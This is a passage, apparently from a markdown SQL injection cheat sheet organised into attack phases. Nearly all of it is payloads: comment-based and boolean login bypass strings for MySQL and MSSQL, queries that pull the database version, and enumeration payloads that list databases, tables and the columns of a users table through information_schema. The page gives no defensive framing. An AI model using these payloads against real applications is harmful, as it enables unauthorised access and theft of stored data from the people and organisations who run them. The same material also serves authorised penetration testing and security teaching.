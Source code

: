 #### Comment Syntax Variations
```sql
-- MySQL Comments
' OR 1=1 -- //        (Standard comment)
' OR 1=1 #            (Hash comment)
' OR 1=1 /*comment*/  (Block comment)

-- MSSQL Comments  
' OR 1=1 --           (Standard comment)
' OR 1=1 /*comment*/  (Block comment)
```

#### Advanced Bypass Payloads
```sql
-- Boolean-based bypass
admin' OR 'a'='a' -- //

-- Numeric bypass (if ID field)
1 OR 1=1 -- //

-- String concatenation bypass
admin' OR 'x'='x

-- Always true conditions
' OR 1=1 OR ''='
' OR 2>1 -- //
```

---

### Phase 3: Information Extraction

#### Database Version Extraction
```sql
-- MySQL version extraction
' OR 1=1 IN (SELECT @@version) -- //
' OR 1=1 IN (SELECT version()) -- //

-- MSSQL version extraction  
' OR 1=1 IN (SELECT @@version) -- //

-- Expected output format:
-- MySQL: "8.0.28-0ubuntu0.20.04.3"
-- MSSQL: "Microsoft SQL Server 2019 (RTM)..."
```

#### Database Enumeration Payloads
```sql
-- List databases (MySQL)
' OR 1=1 IN (SELECT schema_name FROM information_schema.schemata) -- //

-- List databases (MSSQL)
' OR 1=1 IN (SELECT name FROM sys.databases) -- //

-- List tables in current database
' OR 1=1 IN (SELECT table_name FROM information_schema.tables) -- //

-- List columns in specific table
' OR 1=1 IN (SELECT column_name FROM information_schema.columns WHERE table_name='users') -- //
```
